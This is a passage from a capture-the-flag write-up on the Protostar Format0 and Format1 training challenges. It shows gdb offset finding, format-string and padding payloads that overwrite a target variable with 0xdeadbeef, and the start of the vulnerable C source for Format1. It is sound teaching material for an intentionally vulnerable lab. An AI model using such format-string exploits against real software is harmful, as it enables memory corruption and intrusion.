 ```nasm
gdb-peda$ c
Continuing.
you have hit the target correctly :)
[Inferior 1 (process 2629) exited with code 045]
Warning: not running
```


#### 2.2 Quick Solution
 
Let's find the offset; 

```
gdb-peda$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

gdb-peda$ i r eax eip ebp
eax            0x63413163	-> 64
eip            0x37634136	-> 80
ebp            0x63413563	-> 76
```

we are able to overwrite eax after 64 junk bytes then our final payload will be:
```
$(python -c 'print "A" * 64 + "\xef\xbe\xad\xde"')
```

#### 2.3 Final PoC

Because of the format string vulnerability it's possible to add 64 padding by using the following as well... 
```
$ ./format_0 $(python -c "print '%64d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```


## Protostar-Format1 Solution

### 1. Introduction

This is a poc solution for the "Format1" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419031451/https://exploit-exercises.com/protostar/format1/](https://web.archive.org/web/20170419031451/https://exploit-exercises.com/protostar/format1/) 
 
**Hints:**
* This level shows how format strings can be used to modify arbitrary memory locations.

* objdump -t is your friend, and your input string lies far up the stack :)

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
```